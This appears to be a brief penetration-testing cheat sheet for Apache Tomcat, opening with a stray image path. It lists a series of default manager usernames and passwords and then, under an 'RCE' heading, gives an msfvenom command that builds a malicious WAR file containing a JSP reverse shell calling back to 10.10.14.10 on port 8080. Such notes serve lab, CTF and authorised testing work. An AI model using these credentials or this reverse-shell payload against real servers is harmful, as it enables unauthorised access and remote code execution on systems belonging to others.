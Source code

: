 #### Default creds
```
admin : admin
ADMIN : ADMIN
admin : j5Brn9
admin : None
admin : tomcat
cxsdk : kdsxc
j2deployer : j2deployer
ovwebusr : OvW*busr1
QCC : QLogic66
role : changethis
role1 : role1
role1 : tomcat
root : root
tomcat : changethis
tomcat : s3cret
tomcat : tomcat
xampp : xampp
```

#### RCE
Upload malicious WAR file

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=8080 -f war > shell.war
```